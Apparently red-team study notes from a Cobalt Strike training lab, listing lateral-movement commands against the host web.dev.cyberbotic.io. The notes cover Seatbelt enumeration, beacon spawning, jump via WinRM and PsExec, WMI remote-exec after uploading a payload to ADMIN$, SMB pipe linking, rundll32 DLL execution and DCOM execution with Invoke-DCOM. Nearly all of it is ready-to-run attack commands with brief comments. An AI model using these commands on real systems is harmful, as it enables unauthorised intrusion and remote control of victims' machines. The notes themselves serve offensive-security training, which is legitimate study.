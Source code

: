 # Useful enumeration before jumping to a target

```bash
execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe OSInfo -ComputerName=web

# if CoInitializeSecurity already called. error (Spawn a new beacon)
spawn [x86|x64] [listener]
spawnas [DOMAIN\user] [password] [listener]
execute-assembly C:\Tools\SharpWMI\SharpWMI\bin\Release\SharpWMI.exe action=exec computername=web.dev.cyberbotic.io command="C:\Windows\smb_x64.exe"
```

---

# Using the JUMP command (directly spawn a beacon in the target)

```bash
jump [method] [target] [listener]

# Blends well with traffic
jump winrm64 web.dev.cyberbotic.io smb

# Uploads binary and and starts service to execute binary
jump psexec64 web.dev.cyberbotic.io smb

# Runs powershell oneliner
jump psexec_psh web smb
```

---

# Using REMOTE-EXEC command (run command on remote computer)

```bash
remote-exec [method] [target] [command]

# Uploading binary
cd \\web.dev.cyberbotic.io\ADMIN$
upload C:\Payloads\smb_x64.exe
remote-exec wmi web.dev.cyberbotic.io C:\Windows\smb_x64.exe

# Link the spawn process (check where we get pipe from)
link web.dev.cyberbotic.io TSVCPIPE-81180acb-0512-44d7-81fd-fbfea25fff10

#DLL
C:\Windows\System32\rundll32.exe http_x64.dll,StartW
```

---

# DCOM (Distributed Component Object Model)

https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1

```bash
# Import module
powershell-import C:\Tools\Invoke-DCOM.ps1

# Spawn a proccess mmc.exe.
powershell Invoke-DCOM -ComputerName web.dev.cyberbotic.io -Method MMC20.Application -Command C:\Windows\smb_x64.exe

# Link the process to connect to it
link web.dev.cyberbotic.io TSVCPIPE-81180acb-0512-44d7-81fd-fbfea25fff10
```
